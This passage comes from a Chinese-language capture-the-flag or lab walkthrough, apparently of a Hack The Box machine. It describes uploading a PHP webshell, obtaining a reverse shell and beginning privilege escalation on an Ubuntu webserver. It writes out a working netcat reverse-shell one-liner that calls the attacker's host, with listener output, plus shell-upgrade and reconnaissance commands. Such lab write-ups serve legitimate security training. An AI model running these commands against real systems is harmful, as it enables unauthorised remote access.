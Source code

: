 3. 换用GitHub上的这个[php webshell](https://github.com/flozz/p0wny-shell)成功

   ![image-20231122111646895](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202311221339678.png)

   我们似乎在一个其他环境中，目标机器是一台Linux。

   ![image-20231122115754317](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202311221339781.png)

   获取目标机器的reverse shell

   ```
   www-data@webserver:…/html/uploads# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 443 >/tmp/f
   
   └─# nc -nvlp 443                       
   listening on [any] 443 ...
   connect to [10.10.16.4] from (UNKNOWN) [10.10.11.241] 6534
   /bin/sh: 0: can't access tty; job control turned off
   $ id
   uid=33(www-data) gid=33(www-data) groups=33(www-data)
   ```

   

​		

## 2.2、webserver提权

1. 获取ptty shell

   ```
   python -c 'import pty;pty.spawn("/bin/bash")'，请根据需要替换python为python2或python3。
   
   export TERM=xterm
   
   Ctrl + Z 将 shell 置入后台。回到我们自己的终端，我们使用stty raw -echo; fg
   ```



2. 查看目标操作系统信息

   ```
   www-data@webserver:/var/www/html/uploads$ cat /etc/*-release
   DISTRIB_ID=Ubuntu
   DISTRIB_RELEASE=23.04
   DISTRIB_CODENAME=lunar
   DISTRIB_DESCRIPTION="Ubuntu 23.04"
   PRETTY_NAME="Ubuntu 23.04"
   NAME="Ubuntu"
   VERSION_ID="23.04"
   VERSION="23.04 (Lunar Lobster)"
   VERSION_CODENAME=lunar
   ID=ubuntu
   ID_LIKE=debian
   HOME_URL="https://www.ubuntu.com/"
   SUPPORT_URL="https://help.ubuntu.com/"
   BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
   PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
   UBUNTU_CODENAME=lunar
   LOGO=ubuntu-logo
   
   www-data@webserver:/$ uname -a
   Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
   ```
